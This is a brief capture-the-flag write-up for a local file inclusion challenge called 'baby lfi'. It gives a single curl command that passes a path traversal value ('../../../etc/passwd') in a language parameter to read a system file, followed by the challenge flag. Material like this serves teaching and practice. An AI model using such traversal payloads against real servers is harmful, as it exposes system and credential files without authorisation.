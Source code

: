 # baby lfi

## Write-up

```bash
curl -v '[DOMAIN]?language=../../../etc/passwd'
```

## Flag

`shellmates{10CA1_F11e_1Nc1US10n_m4y_r3ve4l_in7Er3st1nG_iNf0Rm4t1on}`
